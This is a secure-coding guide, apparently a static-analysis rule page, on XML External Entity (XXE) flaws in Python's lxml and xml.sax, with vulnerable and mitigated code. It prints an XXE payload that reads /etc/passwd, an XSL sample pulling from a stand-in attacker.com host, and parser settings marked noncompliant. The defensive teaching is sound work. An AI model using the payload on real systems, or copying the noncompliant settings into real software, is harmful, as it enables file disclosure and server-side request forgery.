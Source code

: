 ```yaml
---
title:   XML External Entities (XXE)
sidebar_label:   XML External Entities (XXE)
---
```



## Description
XML specification allows the use of entities that can be internal or external (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or SSRFs.

Example in this XML document, an external entity read the /etc/passwd file:

```python
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

```python
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
```
It is recommended to disable access to external entities and network access in general.


## Vulnerable Code Example
lxml module:

* When parsing XML:

```python
parser = etree.XMLParser() # Noncompliant: by default resolve_entities is set to true
tree1 = etree.parse('ressources/xxe.xml', parser)
root1 = tree1.getroot()

parser = etree.XMLParser(resolve_entities=True) # Noncompliant
tree1 = etree.parse('ressources/xxe.xml', parser)
root1 = tree1.getroot()
```
* When validating XML:

```python
parser = etree.XMLParser(resolve_entities=True) # Noncompliant
treexsd = etree.parse('ressources/xxe.xsd', parser)
rootxsd = treexsd.getroot()
schema = etree.XMLSchema(rootxsd)
```
* When transforming XML:

```python
ac = etree.XSLTAccessControl(read_network=True, write_network=False)  # Noncompliant, read_network is set to true/network access is authorized
transform = etree.XSLT(rootxsl, access_control=ac)
```

## Mitigation
lxml module:

* When parsing XML, disable resolveentities_ and network access:

```python
parser = etree.XMLParser(resolve_entities=False, no_network=True) # Compliant
tree1 = etree.parse('ressources/xxe.xml', parser)
root1 = tree1.getroot()
```
* When validating XML (note that network access cannot be completely disabled when calling XMLSchema):

```python
parser = etree.XMLParser(resolve_entities=False) # Compliant: by default no_network is set to true
treexsd = etree.parse('ressources/xxe.xsd', parser)
rootxsd = treexsd.getroot()
schema = etree.XMLSchema(rootxsd) # Compliant
```
* When transforming XML, disable access to network and file system:
```python
parser = etree.XMLParser(resolve_entities=False) # Compliant
treexsl = etree.parse('ressources/xxe.xsl', parser)
rootxsl = treexsl.getroot()

ac = etree.XSLTAccessControl.DENY_ALL  # Compliant
transform = etree.XSLT(rootxsl, access_control=ac) # Compliant
```
* To prevent xxe attacks with xml.sax module (for other security reasons than XXE, xml.sax is not recommended):

```python
parser = xml.sax.make_parser()
myHandler = MyHandler()
parser.setContentHandler(myHandler)
parser.parse("ressources/xxe.xml") # Compliant: in version 3.7.1: The SAX parser no longer processes general external entities by default

parser.setFeature(feature_external_ges, False) # Compliant
parser.parse("ressources/xxe.xml")
```

## Risk Assessment

## References
* [A4:2017-XML External Entities (XXE)]
* [XML External Entity Prevention Cheat Sheet]
* [CWE-611: Improper Restriction of XML External Entity Reference]
* [CWE-827: Improper Control of Document Type Definition]

[A4:2017-XML External Entities (XXE)]:https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE).html
[XML External Entity Prevention Cheat Sheet]:https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
[CWE-611: Improper Restriction of XML External Entity Reference]:https://cwe.mitre.org/data/definitions/611.html
[CWE-827: Improper Control of Document Type Definition]:https://cwe.mitre.org/data/definitions/827.html



